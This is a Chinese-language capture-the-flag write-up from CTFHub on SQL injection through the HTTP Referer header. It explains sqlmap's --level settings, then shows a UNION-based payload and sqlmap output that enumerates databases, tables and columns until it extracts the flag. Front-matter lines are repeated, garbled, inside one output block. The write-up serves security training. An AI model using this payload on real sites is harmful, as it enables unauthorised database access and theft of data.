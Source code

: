 ```yaml
---
cover: https://w.wallhaven.cc/full/28/wallhaven-285929.jpg
created: 2024-11-27T22:18
date: 2024-11-24 00:02:16+00:00
lastmod: 2024-11-24 00:52:58+00:00
tag: web渗透
tags:
  - web渗透
title: Refer注入
updated: 2024-12-30T23:33
---
```



# Refer注入

**level有5级，越高检测越全，默认为 1**

> --level 1 检测Get和Post
>
> --level 2 检测HTTP Cookie
>
> --level 3 检测User-Agent和Referer
>
> --level 4 检测
>
> --level 5 检测 HOST 头

 --

```shell
---
Parameter: Referer (Referer)
    Type: UNION query
    Title: Generic UNION query (random number) - 2 columns
    Payload: -5848 UNION ALL SELECT CONCAT(0x7171787a71,0x6543727846745555584e4546736d6442655a6c63646a786c626d6f634b6e6f4c43554a6a4b746676,0x7170787871),3313-- -
tags: [web渗透]
title: Refer注入
title: Refer注入
title: Refer注入
tags: [web渗透]
title: Refer注入
tags: [web渗透]
---
```

```shell
available databases [4]:                                                                                             
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli
```

```shell
Database: sqli                                                                                                       
[2 tables]
+------------+
| news       |
| tqslaiphcq |
+------------+
```

```shell
Database: sqli
Table: tqslaiphcq
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| lpmuqabrgy | varchar(100) |
+------------+--------------+

```

```shell
Database: sqli
Table: tqslaiphcq
[1 entry]
+----------------------------------+
| lpmuqabrgy                       |
+----------------------------------+
| ctfhub{51e1881db6437cceea0c3876} |
+----------------------------------+
```
